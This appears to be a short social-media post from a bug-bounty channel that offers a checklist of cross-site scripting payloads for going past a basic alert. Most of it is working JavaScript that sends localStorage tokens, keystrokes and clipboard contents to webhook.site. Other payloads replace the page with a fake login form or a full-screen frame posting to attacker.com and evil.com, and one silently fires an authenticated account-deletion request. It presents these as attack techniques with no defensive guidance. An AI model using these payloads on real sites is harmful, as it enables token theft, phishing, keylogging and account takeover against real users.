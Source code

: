 🔥 Masterclass XSS Exploits — Go Beyond Cookies
#XSS #BugBounty #WebSecurity #CyberSec #cybersecplayground

Most beginners stop at alert(document.cookie)…
But real hunters go further! Here’s your XSS Power Checklist to escalate from a basic alert to full-blown pwnage:

1. Steal Tokens from localStorage / sessionStorage
Modern apps store JWTs or auth tokens in local/session storage—not cookies. If accessible, that’s a goldmine!
<script>
fetch("https://webhook.site/YOUR-ID?ls=" + localStorage.getItem("authToken"))
</script>

Try different key names like:
access_token, jwt, session_id, refreshToken

2. Fake UI / DOM Hijacking for Phishing
Trick users into interacting with fake forms or buttons. This works even if the page looks legit.
<script>
document.body.innerHTML = `
<h2>Session Expired</h2>
<form action="https://attacker.com"><input name="user" value="grabbed"></form>`;
</script>

Bonus: Full-screen phishing via iframe
<iframe src="https://evil.com/login.html" width="100%" height="100%"></iframe>

3. Keylogger Injection
Monitor what the victim types—great for grabbing usernames, passwords, or search terms:
<script>
document.onkeypress = e => {
  fetch('https://webhook.site/YOUR-ID?key=' + e.key);
}
</script>

4. Session Riding via Authenticated Requests
Even if you can’t steal cookies, you can abuse the victim’s session silently:
<script>
fetch("/api/delete-account", {
  method: "POST",
  credentials: "include"
});
</script>

Use for: account deletion, setting changes, sending messages, etc.


5. Clipboard Access (Yes, You Can)
Try stealing copied data—passwords, credit card numbers, copied API keys…
<script>
navigator.clipboard.readText().then(text => {
  fetch('https://webhook.site/YOUR-ID?clip=' + encodeURIComponent(text));
});
</script>
Note: May require user interaction.
